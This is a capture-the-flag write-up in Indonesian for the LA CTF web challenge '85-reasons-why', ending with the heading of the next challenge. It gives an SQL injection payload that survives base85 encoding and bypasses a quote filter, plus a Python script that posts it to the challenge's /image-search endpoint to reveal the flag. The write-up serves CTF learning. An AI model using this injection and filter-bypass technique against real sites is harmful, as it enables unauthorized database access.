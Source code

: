 Disini seharusnya kita bisa melakukan SQLI, tetapi karena dia men-encode input kita menggunakan `base64.a85encode` kita harus mendecode payload kita terlebih dahulu menggunakan `base64.a85decode` dan kita harus berhati hati dengan padding dari base85 karna bisa membuat payload kita giberish dan menjadi tidak valid.

#### Exploit

Setelah trial dan error saya menemukan bypass untuk WAF tersebut, yaitu seperti berikut:

```python
a = base64.a85decode(b"""\\\\\\\\\\\\\\\\''/**/or/**/1--aa""")
print(a)
```

Sedikit penjelas dari payload diatas.
- `\\\\\\\\\\\\\\\\''` pada payload digunakan untuk membypass single quote
- `aa` digunakan untuk padding agar payload menghasilkan base85 yang valid dan tidak giberish.

Setelah itu kita bisa kirim hasil dari script diatas ke `/image-search` atau menggunakan script yang saya buat untuk mengirim payload tersebut.

```python 
import requests
import base64

# URL = "http://localhost:4444/"
URL = "https://85-reasons-why.lac.tf/"


def send_img(img, url=URL):
    res = requests.post(
        url+"image-search",
        files={"image-query": ('foo.jpeg', img, 'image/png')},
        # proxies={"https": "http://127.0.0.1:8080"},
        verify=False
    )
    return res.text

a = base64.a85decode(b"""\\\\\\\\\\\\\\\\''/**/or/**/1--aa""")
print(send_img(a))
b = base64.a85encode(a)
print(b)
```

Kita jalankan setelah itu kita akan mendapatkan flagnya di hidden post.

![](https://i.imgur.com/sTYkxQd.png)


## california-state-police - web
### Description

Stop! You're under arrest for making suggestive 3 letter acronyms!
